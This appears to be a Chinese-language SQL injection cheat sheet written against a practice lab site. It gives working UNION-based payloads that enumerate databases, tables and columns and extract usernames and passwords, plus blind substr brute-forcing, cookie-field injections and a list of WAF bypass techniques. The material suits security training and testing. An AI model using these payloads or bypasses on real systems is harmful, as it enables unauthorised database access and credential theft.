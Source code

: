 

#### 常规注入：
1.  `union select '1','2','3'`加上单引号，输出一个字符。而不是直接`union select 1,2,3` 1.  举例： 
```
http://inject2b.lab.aqlab.cn/Pass-01/index.php?id=1 union select 1,(select group_concat(distinct(table_schema)) from information_schema.tables),3		//查数据库名一般在information_schema数据库下的tables表里找table_schema字段。其中distinct()是去重，group_concat()是将多个结果连接起来当做一个字符串。


http://inject2b.lab.aqlab.cn/Pass-01/index.php?id=1 union select 1,(select group_concat(table_name) from information_schema.tables),3		//查表名一般在information_schema数据库下的tables表里找table_name字段。


http://inject2b.lab.aqlab.cn/Pass-01/index.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='error'),3		//查字段名在information_schema数据库下的colums表里找cloumn_name字段。


1. 可以将查询换成user(),version()等查看数据库信息。

```
1.  `union select '1',username||'~'||password FROM users`当只有一个地方能回显时，用`~`连接前后的字段名。<br/> 效果： 1.  `UNION SELECT table_name NULL FROM information_schema.tables -- a `直接在本网页使用的数据库下查找所有的表。用了`group_concat(table_name)`反而不行。 1.  `union查询`前面必须为**假**，才会显示后面的查询结果。<br/> 如：`id=-1' union select '1' -- a` 1.  用`and substr(password,1,1)='a' -- a`去爆破的时候，最后是字符`'a'`，而不能是`a` 
所有的子查询都是要用()括起来。SELECT @@version这种也是子查询。

要么用||连接语句，要么用union连接。注意union连接时，前面的条件需要为假，并且字段数要相同

如：

```
TrackingId=1'||(SELECT version())
TrackingId=-1' union SELECT '1','2',(SELECT @@version)

```

#### 常见的绕过：

##### 绕过单引号双引号：

```
1，关键字可以用%（只限IIS系列）。比如select，可以sel%e%ct 

2，通杀的，内联注释，如/*!select*/

3，编码，可两次编码

4，multipart请求绕过，在POST请求中添加一个上传文件，绕过了绝大多数WAF

5，参数绕过，复制参数，id=1&amp;id=1

6，组合法如and可以用&amp;&amp;再URL编码

7、替换法，如and改成&amp;&amp;;=可以用like或in等

```
